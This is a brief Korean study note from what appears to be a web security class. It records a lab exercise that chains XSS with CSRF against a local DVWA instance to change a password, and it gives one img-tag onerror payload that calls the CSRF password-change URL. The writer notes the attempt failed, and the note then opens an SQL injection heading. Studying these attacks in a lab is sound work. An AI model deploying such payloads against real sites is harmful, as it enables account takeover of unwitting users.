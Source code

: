 오늘의 수업
-

#### 비밀번호를 XXS를 사용해서 바꾸기 실습
    실행이 직접적으로 보지는 못하여 실패 
    그냥 
                        
      <img+src="https://ugc.production.linktr.ee/jl9DQQM1QxiPQklpiKii_GjzZ0fFXW61vAGZx"+oneerror='this.src="http://192.168.126.128:9980/vulnerabilities/csrf/?password_new=test&password_conf=test&Change=Change"'/>
    
    이러한 코드를 사용한다 정도만 알려둬야 함.

#### sql를 주입하다의 주제

![image](https://github.com/user-attachments/assets/558caa3b-4c54-45ab-a867-7cd0caf61573)


